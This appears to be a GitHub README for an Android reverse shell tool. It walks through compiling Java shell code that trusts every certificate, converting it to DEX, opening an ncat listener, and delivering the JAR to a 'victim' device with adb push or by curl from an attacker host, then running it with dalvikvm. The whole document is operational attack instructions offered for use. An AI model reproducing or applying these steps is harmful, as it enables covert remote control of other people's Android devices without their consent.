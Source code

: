 ## Android Reverse Java Shell using SSL Encryption

## On Attacker machine - Linux for example -
### (you need android sdk installed and build-tools also) 

#### Compile Java source code to bytecode (if fails for "class error not supported", change the release!)
`javac --release 17 Shell.java TrustAllCertificates.java`

#### Convert to DEX format 
`~/Library/Android/sdk/build-tools/33.0.0/d8 Shell.class TrustAllCertificates.class`

#### Create fake JAR file
`zip reverse_ssl.jar classes.dex`

#### Set Listener (USE NCAT!)
`ncat -nlvp 1337`

## On victim Android device:
`adb push reverse_ssl.jar /sdcard` (if Android Debug Tools is enabled)

or you can just curl and then run the reverse shell using dalvikvm from Termux:

`curl http://attackingmachine:9999/reverse_ssl.jar -o /sdcard/reverse_ssl.jar`<br/>

then

`cd /system/bin/ && ./dalvikvm -cp /sdcard/reverse_ssl.jar Shell`


You can of course create a pure .apk package and sign it using Android Studio or apktool and apksigner.

## Credits

Inspired from: https://gist.github.com/FrankSpierings/e330e3aea3152f816c202b883887dd60
